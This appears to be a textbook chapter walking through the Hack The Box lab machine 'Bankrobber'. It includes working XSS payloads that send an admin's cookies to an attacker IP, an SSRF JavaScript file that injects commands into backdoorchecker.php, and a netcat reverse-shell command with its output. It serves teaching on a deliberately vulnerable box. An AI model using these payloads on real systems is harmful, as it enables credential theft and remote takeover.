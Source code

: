 # Exercise: Discovering XSS on Bankrobber

An nmap scan reveals that Bankrobber is a Windows box and has HTTP running on ports 80 and 443, SMB on port 445 and MariaDB on port 3306:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- bankrobber.htb \
    -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp open ssl/http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds 
    (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

MariaDB is very similar to MySQL and uses the same SQL syntax. After navigating to the URL [http://bankrobber.htb](http://bankrobber.htb) we find a Bitcoin trading platform called E-coin.

![Home page of Bankrobber](../.gitbook/assets/0%20%281%29%20%282%29.png)

There is a login function and below that a place to register new accounts. If we register an account with username 'john' and password 'password' and then login, we are taken to a page that allows us to transfer E-coin to \(presumably\) another user using the ID of the user.

![Transfer E-coin function of Bankrobber](../.gitbook/assets/1%20%283%29.png)

If we right click on the page and select Inspect Element to go into the developer tools of the browser, we can navigate to the Storage tab and look at the Cookies that have been set. The cookies are:

```text
id: 3
password: cGFzc3dvcmQ%3D
username: am9obg%3D%3D
```

The username and password cookies are simply the Base64 encoded versions of "john" and "password" which you can verify for yourself. We can see that the id of the user is 3 and so it suggests that there are at least 2 other users \(1 and 2\) on the system.

If we submit a transaction by entering 100 as the amount, 2 as the id and a comment of "test", a popup reports "Transfer on hold. An admin will review it within a minute. After that he will decide whether the transaction will be dropped or not.".

This suggests that a person will be reviewing the transfer and so anything we put in the comment field is likely to be rendered when the admin views it. This makes the comment field a candidate for cross-site scripting. To test this, let us start a Python web server on our box:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

We can then create a new transaction and put the following HTML into the comment field:

```javascript
<img src=http://10.10.14.29/img.jpg />
```

This eventually hits the Python web server, and we get the request:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.70.254 - - [25/Feb/2021 10:38:08] code 404, message File not found
10.129.70.254 - - [25/Feb/2021 10:38:08] "GET /img.jpg HTTP/1.1" 404 -
```

So we know that XSS works. The first thing we can do is to steal the administrator's cookies. We know that the cookies used on the site simply consist of the username and password Base64 encoded. To get them we can use the JavaScript function document.cookie\(\) in the following way:

```javascript
<img src=x onerror=this.src="http://10.10.14.135/?c="+document.cookie />
```

This returns the base64 for both username and password to be "admin" and "Hopelessromantic":

```text
10.129.70.254 - - <SNIP> "GET /?c=username=YWRtaW4%3D;
    %20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```

After doing the SQL Injection to read source code \(see later in the SQL injection section\), you discover a php file called backdoorchecker.php that will execute a "dir" command supplied as POST parameter. However, the check only tests if the first three characters are equal to "dir". By adding a "\|" after "dir" you can add any other Windows command. The file backdoorchecker.php also checks that the request came from the same machine checking that the "REMOTE\_ADDR" is equal to "::1" the IPv6 localhost address.

To exploit backdoorchecker.php, you can use the XSS to do an SSRF attack. To validate that this will work, you will write a JavaScript file hosted from our machine and test a "ping" command. Writing a script attack.js as follows:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 5 10.10.14.29";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

To check that the ping is being sent, you can start tcpdump to collect the ping packets which are of the type ICMP:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

To initiate the XSS you can use the script tag instead of the img tag. This will fetch and execute the script attack.js:

```javascript
<script src="http://10.10.14.135/attack.js"></script>
```

Once the script is fetched from the server, you should see tcpdump reporting the pings being sent to our box:

```bash
12:26:08.465546 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 1, length 40
12:26:08.465571 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 1, length 40
12:26:08.465586 IP bankrobber.htb > 10.10.14.135: ICMP echo request, 
    id 1, seq 2, length 40
12:26:08.465592 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, 
    id 1, seq 2, length 40
<SNIP>
```

We haven't dealt with exploitation and how to get access to an interactive session on a remote box, however we will quickly get a "reverse shell" on the Bankrobber box using Netcat. Netcat for windows can be downloaded from [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Take a copy of the nc64.exe and rename as nc.exe in your working directory.

As you are targeting a Windows box, you can provide access to netcat via SMB using a tool smbserver.py which is part of the Impacket tools.

{% hint style="info" %}
To install Impacket in the /opt directory, you can use:

`git clone https://github.com/SecureAuthCorp/impacket.git`
{% endhint %}

You can then run smbserver.py directly from /opt/impacket/examples/smbserver.py

\([https://github.com/SecureAuthCorp/impacket\](https://github.com/SecureAuthCorp/impacket\)\). To share a directory using smbserver you use the syntax:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 /opt/impacket/examples/smbserver.py share $(pwd) -smb2support
```

We can then modify attack.js to the following:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.135\\share\\nc.exe 10.10.14.135" +
             " 6001 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

We would start the webserver to serve the JavaScript file and netcat listener to receive the incoming connection for the reverse shell:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Bankrobber]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.103.158] 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.
C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```

This is not the end of the box, we have a reverse shell as the user cortin but the next part is privilege escalation which involves a buffer overflow, something we will deal with in Chapter 6.

